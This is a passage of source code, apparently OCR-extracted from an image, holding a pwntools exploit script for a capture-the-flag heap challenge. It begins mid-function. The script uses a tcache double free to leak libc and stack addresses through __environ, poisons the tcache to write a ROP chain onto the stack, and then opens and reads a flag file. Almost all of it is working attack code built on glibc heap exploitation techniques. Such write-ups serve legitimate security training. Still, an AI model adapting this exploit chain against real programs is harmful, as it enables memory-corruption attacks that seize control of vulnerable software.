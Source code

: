 ```
    p.sendline(b'3')
    p.recvuntil(b'index ?')
    p.sendline(str(index).encode())

def exp():
    p.recvuntil(b'what is your name? ')
    p.sendline(b'arttnba3')

    new(0x80, 'arttnba3') 
    new(0x80, 'arttnba3') 
    new(0x60, 'arttnba3') 
    new(0xb0, 'arttnba3') 

    for i in range(7):
        delete(0)

    delete(1)
    dump(1)
    main_arena = u64(p.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00')) - 0x60
    malloc_hook = main_arena - 0x10
    libc_base = malloc_hook - libc.sym['__malloc_hook'] 
    environ = libc_base + libc.sym['__environ'] 
    pop_rdi_ret = libc_base + libc.search(asm('pop rdi\nret')).__next__()
    pop_rsi_ret = libc_base + libc.search(asm('pop rsi\nret')).__next__()
    pop_rdx_ret = libc_base + libc.search(asm('pop rdx\nret')).__next__()

    delete(2)
    delete(2)

    new(0x60, p64(note_addr)) 
    new(0x60, 'arttnba3') 
    new(0x60, p64(environ))

    dump(0)
    stack_leak = u64(p.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))
    ret = stack_leak - 0x220

    payload = p64(pop_rdi_ret) + p64(0) + p64(pop_rsi_ret) + p64(flag_addr) + p64(pop_rdx_ret) + p64(4) + p64(e.plt['read']) 
    payload += p64(pop_rdi_ret) + p64(flag_addr) + p64(pop_rsi_ret) + p64(4) + p64(libc_base + libc.sym['open'])
    payload += p64(pop_rdi_ret) + p64(3) + p64(pop_rsi_ret) + p64(flag_addr) + p64(pop_rdx_ret) + p64(0x30) + p64(e.plt['read'])
    payload += p64(pop_rdi_ret) + p64(flag_addr) + p64(e.plt['puts'])

    delete(3)
    delete(3)
    new(0xb0, p64(ret))
    new(0xb0, 'arttnba3') 
    new(0xb0, payload) 

    p.send('flag')
    p.interactive()

if __name__ == '__main__':
    exp() 
```
